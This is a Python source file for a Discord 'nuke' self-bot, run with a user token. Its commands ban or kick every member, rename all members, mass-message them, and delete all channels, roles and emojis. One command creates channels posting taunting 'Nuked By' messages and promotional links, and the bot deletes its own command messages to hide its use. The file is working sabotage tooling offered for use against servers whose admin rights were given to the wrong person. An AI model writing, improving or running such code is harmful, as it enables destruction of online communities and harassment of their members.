 import keep_alive
import os
from config import yourprefix
from config import token
 # refer to main branch
prefix = yourprefix 
import asyncio

import discord
from discord.ext import commands

print ("Loading..")

intents = discord.Intents.all()
bot = commands.Bot(command_prefix=prefix, intents=intents, help_command=None, self_bot=True)
# Construct an instance of commands.Bot

@bot.event
async def on_command_error(ctx, error):
    pass

@bot.check
async def command_invoke_delete(ctx):
    try:
        await ctx.message.delete()
    except discord.Forbidden:
        # lol this should never happen
        pass
    finally:
        return True

@bot.event
async def on_ready():
    print("Ready To Have Some Fun! \n Discord Server: https://discord.gg/rCg898b45A \n Youtube Channel: https://www.youtube.com/channel/UCXk0klxbjcVgGvYyKWLgtLg")

@bot.command()
async def kall(ctx):
    for member in ctx.guild.members:

        if member == bot.user:
            continue

        try:
            await member.kick()
        except discord.Forbidden:
            print(f"{member.name} has FAILED to be kicked from {ctx.guild.name}")
        else:
            print(f"{member.name} has been kicked from {ctx.guild.name}")

    print("Action Completed: kall")

@bot.command()
async def ball(ctx):
    for member in ctx.guild.members:
        
        if member == bot.user:
            continue

        try:
            await member.ban()
        except discord.Forbidden:
            print(f"{member.name} has FAILED to be banned from {ctx.guild.name}")
        else:
            print(f"{member.name} has been kicked from {ctx.guild.name}")
    
    print("Action Completed: ball")  

@bot.command()
async def rall(ctx, *, nick):
    for member in ctx.guild.members:
            
        try:
            await member.edit(nick=nick)
        except discord.Forbidden:
            print(f"{member.name} has NOT been renamed to {nick} in {ctx.guild.name}")
        else:
            print(f"{member.name} has been renamed to {nick} in {ctx.guild.name}")
            
    print("Action Completed: rall")

@bot.command()
async def mall(ctx, *, message):
    for member in ctx.guild.members:
        
        if member == bot.user:
            continue
            
        try:
            await member.send(message)
        except discord.Forbidden:
            print(f"{member.name} has NOT recieved the message.")
        else:
            print(f"{member.name} has recieved the message.")
            
    print("Action Completed: mall")

@bot.group(invoke_without_command=True, case_insensitive=True)
async def dall(ctx):
    print(f'Choose an option from -> {", ".join([c.name for c in ctx.command.commands])}')
    
@dall.command()
async def channels(ctx):
    for channel in ctx.guild.channels:
        try:
            await channel.delete()
        except discord.Forbidden:
            print(f"{channel.name} has NOT been deleted in {ctx.guild.name}")
        except discord.HTTPException:
            print(f"{channel.name} has NOT been deleted in {ctx.guild.name}")
        else:
            print(f"{channel.name} has been deleted in {ctx.guild.name}")
    print("Action Completed: dall channels")  

@dall.command()
async def roles(ctx):

    for role in ctx.guild.roles:

        if str(role) == '@everyone':
            continue

        try:
            await role.delete()
        except discord.Forbidden:
            print(f"{role.name} has NOT been deleted in {ctx.guild.name}")
        else:
            print(f"{role.name} has been deleted in {ctx.guild.name}")
                
    print("Action Completed: dall roles")
  
@dall.command()
async def emojis(ctx):
    
    for emoji in ctx.guild.emojis:
        try:
            await emoji.delete()
            print(f"{emoji.name} has been deleted in {ctx.guild.name}")
        except discord.Forbidden:
            print(f"{emoji.name} has NOT been deleted in {ctx.guild.name}")
        else:
            print(f"{emoji.name} has been deleted in {ctx.guild.name}")
            
    print("Action Completed: dall emojis")

@dall.command()
async def all(ctx):
    # LOL
    print('Deleting all...')
    
    print('Deleting channels..')
    for channel in ctx.guild.channels:
        try:
            await channel.delete()
        except discord.Forbidden:
            print(f"{channel.name} has NOT been deleted in {ctx.guild.name}")
        except discord.HTTPException:
            print(f"{channel.name} has NOT been deleted in {ctx.guild.name}")
        else:
            print(f"{channel.name} has been deleted in {ctx.guild.name}")
        
    print('Deleting roles..')
    for role in ctx.guild.roles:

        if str(role) == '@everyone':
            continue

        try:
            await role.delete()
        except discord.Forbidden:
            print(f"{role.name} has NOT been deleted in {ctx.guild.name}")
        else:
            print(f"{role.name} has been deleted in {ctx.guild.name}")
            
    print('Deleting emojis..')
    for emoji in ctx.guild.emojis:
        try:
            await emoji.delete()
        except discord.Forbidden:
            print(f"{emoji.name} has NOT been deleted in {ctx.guild.name}")
        else:
            print(f"{emoji.name} has been deleted in {ctx.guild.name}")
            
    print("Action Completed: dall all")
   
@bot.command()
async def destroy(ctx):

    for member in ctx.guild.members:

        if member == bot.user:
            continue

        try:
            await member.ban()
        except discord.Forbidden:
            print(f"{member.name} has FAILED to be banned from {ctx.guild.name}")
        else:
            print(f"{member.name} has been banned from {ctx.guild.name}")

    await all(ctx)

    print("Action Completed: destroy")
@dall.command(pass_context=True)
async def sex(ctx):
    await ctx.message.delete()
    for member in list(dall.get_all_members()): 
        await asyncio.sleep(0)
        try:
            embed = discord.Embed(title="This Is Why You Dont Wanna Give Random People Admin!", url="https://github.com/Social404/Advanced-Discord-Nuke-Bot", description="They Nuke Your Server With A Free Source Code (Click The Text Above For The Code)" , color=discord.Colour.purple())
            embed.add_field(
                name="Discord Server",
                value=
                "[ [ Click here ] ](https://discord.gg/kE9vk9Zeuf)",
                inline=False)
            embed.add_field(
                name="Youtube Channel",
                value=
                "[ [ Click here ] ](https://www.youtube.com/channel/UCpDamIPHLt38gk8uXcGiQpA)",
                inline=False)
            embed.add_field(
                name="GitHub",
                value=
                "[ [ Click here ] ](https://github.com/social404)",
                inline=False)
            embed.set_thumbnail(url="https://tenor.com/view/destory-eexplode-nuke-gif-6073338")
            embed.set_footer(text="Nuked By Social404's Bot! Sorry About Your Loss")

        except:
            pass
        print("Action completed: Message all")
    for channel in list(ctx.message.guild.channels):
        try:
            await channel.delete()
            print (channel.name + " has been deleted")
        except:
            pass
        guild = ctx.message.guild
        channel = await guild.create_text_channel("Nuked By Social Fuckersss")
        await channel.send("@everyone Nuked Fuckers lmaooo Ezz win for https://discord.gg/kE9vk9Zeuf")


keep_alive.keep_alive()

try:
    bot.run(token, bot=False)
except discord.LoginFailure:
    print('Invalid Token Passed')
